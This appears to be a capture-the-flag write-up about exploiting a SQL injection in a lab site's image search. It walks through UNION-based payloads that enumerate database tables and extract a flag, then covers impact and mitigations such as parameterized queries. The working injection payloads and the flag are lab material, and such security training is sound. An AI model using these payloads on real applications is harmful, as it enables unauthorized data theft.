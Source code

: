 # SQL Injection Vulnerability

## Description
SQL Injection (SQLi) is a common web application vulnerability that allows an attacker to interfere with the queries that an application makes to its database. By injecting malicious SQL code into the input fields, an attacker can retrieve, manipulate, or delete data from the database.

## Steps to Exploit
1. **Identify the Vulnerability:**
   - While searching images on the website, we noticed that entering the payload `1 OR 1=1` in the search input field returned all the images from the database. This indicated a SQL injection vulnerability.

2. **Testing SQL Injection Payloads:**
   - We used SQL injection payloads from the [SQL Injection Payload List](https://github.com/payloadbox/sql-injection-payload-list) to explore the vulnerability further.
   - Upon trying the payload `5 UNION ALL SELECT 1,2`, we discovered that the query returned two columns, indicating the structure of the underlying SQL query.

3. **Extracting Database Information:**
   - Using the information gathered, we crafted the following payload to retrieve details from the database:
     ```sql
     5 UNION SELECT 1, CONCAT(table_name,1000001,column_name) FROM information_schema.columns
     ```
   - This allowed us to identify that there is a table named `list_images`, which contains the columns `id`, `url`, `title`, and `comment`.

4. **Retrieving Data:**
   - We then crafted a final payload to extract the data from the `list_images` table:
     ```sql
     5 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images
     ```
   - This payload revealed the following data:
     ```
     ID: 5 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images
     Title: borntosec.ddns.net/images.pngHack me? If you read this just use this md5 decode lowercase then sha256 to win this flag! : 1928e8083cf461a51303633093573c46
     Url: 1
     ```

## Flag
The flag was extracted as part of the title:
`1928e8083cf461a51303633093573c46`

## Impact
SQL Injection vulnerabilities can have severe consequences, including:

- **Data Exfiltration:** Attackers can retrieve sensitive information such as user credentials, personal data, and other confidential records.
  
- **Data Manipulation:** Attackers can modify or delete data, potentially leading to data loss or corruption.
  
- **System Compromise:** In some cases, SQL Injection can be used to gain access to the underlying server, leading to a full system compromise.


## Mitigation
To protect against SQL Injection vulnerabilities, consider implementing the following measures:

- **Parameterized Queries:** Always use parameterized queries or prepared statements to ensure that user input is treated as data, not executable code.

- **Input Validation:** Validate and sanitize all user inputs to ensure they conform to expected formats and values.

- **Least Privilege:** Ensure that database accounts used by the application have the least privileges necessary, limiting the potential impact of a successful SQL injection attack.

- **Regular Security Audits:** Perform regular security audits and penetration testing to identify and fix potential vulnerabilities.

## Payloads Used
Here are the SQL injection payloads that were used in the attack:

```plaintext
1 OR 1=1
5 UNION ALL SELECT 1,2
5 UNION SELECT 1, CONCAT(table_name,1000001,column_name) FROM information_schema.columns
5 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images
